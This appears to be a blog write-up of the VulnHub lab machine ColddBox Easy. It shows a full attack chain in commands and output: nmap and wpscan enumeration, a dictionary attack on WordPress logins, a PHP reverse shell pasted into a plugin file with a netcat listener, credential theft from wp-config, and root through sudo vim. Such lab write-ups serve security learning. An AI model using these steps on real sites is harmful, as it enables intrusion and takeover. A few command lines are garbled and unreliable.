


(EN) Vulnhub write-up : C0lddBox
Introduction⌗
Machine-Author: C0ldd
Description: Welcome to ColddBox Easy, it is a Wordpress machine with an easy level of difficulty, highly recommended for beginners in the field, good luck!
Download:(https://mega.nz/file/VldHiIgA#4nRI2LPZs_x48_-ryCkPvL6Em2lQTSJEKvoReieDMec)
Operating system: Linux
What will be covered in this write-up:
ENUMERATION⌗
First, we need to find out where the machine is located on the network:
nmap -sP 10.0.2.15/24
-sP: it means ping scan, it considers that hosts are all up, so it doesn’t need to discover them. It is a fast way to discover a machine.
We found an IP address ! :
10.0.2.6
Now, we can scan it with special options, to discover in details what’s running on this machine :
nmap -A -T5 -n 10.0.2.6
-A : Agressive mode (discovers the OS version and the services versions).
-T5 : timing template in insane mode, it determines the speed of the scan, more it’s fast, less it is discreet.
-n : tells Nmap to never reverse DNS resolve active hosts it has found. Since DNS resolution is often slow, this speeds things up.
Here is the scan output:
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
MAC Address: 08:00:27:7A:7E:2C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Alright, we only have a website running on the port 80, hosting a WordPress, running on Apache 2.4.18, let’s check what it looks like :

We can use a tool to scan this WordPress website, wpscan (a tool used to enumerate vulnerable stuffs on WordPress such as vulnerable plugins):
wpscan --url http://10.0.2.6 -e u vp
-e: enumeration mode
u: user enumeration, without arguments it checks if there is 10 users max.
vp : vulnerable plugins
Here is the output:
[i] User(s) Identified:
[+] the cold in person
| Found By: Rss Generator (Passive Detection)
[+] c0ldd
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] hugo
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] philip
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
We found some users !
wpscan provides a dictionnary attack tool, so let’s use it:
wpscan --url http://10.0.2.6 -P /usr/share/wordlists/rockyou.txt --usernames c0ldd,philip,hugo
-P: select the password wordlist to use for the dictionnary attack.
Here is the output:
[!] Valid Combinations Found:
| Username: c0ldd, Password: 9876543210
Nice ! Let’s try to login as c0ldd on the WordPress, maybe we got the admin credentials ? So let’s go in /wp-admin/: 
We can see that the user c0ldd is the admin of the WordPress ! Perfect. We can now add or delete things, maybe we could setup a reverse-shell to have a better control of the web-server ?
REVERSE-SHELL⌗
We could put a PHP reverse-shell code into the plugins configuration. All we have to do is to go ro the Plugins menu, then you can modify the Akismset plugin, go into the file akismet/class.akismet-admin.php, then just select all its content and delete it to paste the reverse shell.
The code I used for the reverse-shell is located in /usr/share/webshells/php-reverse-shell.php
Then you have to modify the reverse-shell code, you need to put your listening IP and the port that will be waiting for a connexion. It is presented like that :
$ip = '10.0.2.15'; // CHANGE THIS
$port = 4443; // CHANGE THIS
When it’s done, update the changes.
The principle of the reverse-shell is that a remote computer will connect you yours, and each command you will type will be sent to his computer and it will display the output(s) of your commands on your own shell.
So let’s wait for the connexion on our computer with netcat:
nc -lvp 4443
-l: listen mode
-v: verbose mode
-p: port which the IP is listening on
Now let’s connect from the WordPress, we modified a plugin, so all we got to do to launch the connexion request is to click on activate or deactivate function of the akismet plugin.
Here we are, I am connected !
listening on [any] 4443 ...
10.0.2.6: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.6] 48442
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05
UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
19:51:01 up 2:12, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
We need to find the flag of the user c0ldd before trying to be #root, first, let’s spawn a tty (terminal). The only command that worked for me was:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Now we have a terminal, we can see that we are the user www-data, so we have rights to edit/delete some files of the web server. Let’s check it out!
cd /var/www/html
c
/** MySQL database username */
define('DB_USER', 'c0ldd');
/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
Perfect, now let’s try to login as c0ldd with the password cybersecurity :
www-data@ColddBox-Easy:/var/www/html$ su - c0ldd
su - c0ldd
Password: cybersecurity
c0ldd@ColddBox-Easy:~$ id
id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd)
It works ! We just have to cat the user flag :
cat user.txt | base64 -d Felicidades
primer nivel conseguido!c0ldd@ColddBox-Easy
We now need to be #root…
PRIVILEGE ESCALATION⌗
The objective of the privilege escalation is to use system misconfigurations to escalate to the #root user. This website is usefull to find some :
Basic Linux Privilege Escalation
I found that the command sudo -l lists the allowed (and forbidden) commands for the invoking user
You can also use the tool Linpeas that enumerate many things for the privilege escalation, check it out:
After typing the sudo -l command, i found this:
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
I can run these command as #root but without placing sudo in front of em. It’s a good way to try a privilege escalation. Let’s checkout for vim, there is a good website that gives us commands to privesc, or to spawn a tty, make a reverse shell and it is :
So GTFO Bins gave us something to type with vim, let’s execute it :
sudo vim -c ':!/bin/sh'
We are #root !! We can now cat the #root flag :)
Felicidades, primer nivel conseguido!#
SPECIAL THANKS⌗
I’d like to thanks Kr0wZ, who guided me for this CTF, you can check out his blog :
KrowZ Blog
Thanks to Mysaz who also helped me for this CTF
Thanks to IsIghTT, here is his discord IsIghTT#3829
Big Thanks to Zayceur who helped me to setup this blog and gave me some tips for coding in markdown, his website :
https://zayceur.ch/